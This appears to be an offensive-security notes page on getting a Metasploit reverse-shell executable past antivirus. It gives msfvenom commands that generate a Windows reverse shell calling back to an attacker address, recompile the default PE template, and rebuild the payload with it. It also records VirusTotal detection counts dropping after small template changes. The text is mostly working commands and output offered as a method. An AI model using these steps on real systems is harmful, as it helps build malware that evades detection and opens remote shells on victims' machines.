 # AV Bypass with Metasploit Templates

Generating a standard MSF payload file:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection):

![](../.gitbook/assets/msf-templates-default-payload.png)

The exe binary that was generated earlier used the below source code to generate the host binary that gets injected with the shellcode of our choice:

![](../.gitbook/assets/msf-template.png)

Recompile the standard template

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

Regenerate the payload with a new template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

Detections dropped from 48 to 36 for only recompiling the binary template and not making any changes to it \([VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection)\):

![](../.gitbook/assets/msf-template-vt2.png)

If we make a couple of small changes to the code for memory allocation sizes:

![](../.gitbook/assets/msf-template-sizes.png)

[VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections drop from 36 to 32:

![](../.gitbook/assets/msf-template-vt3.png)

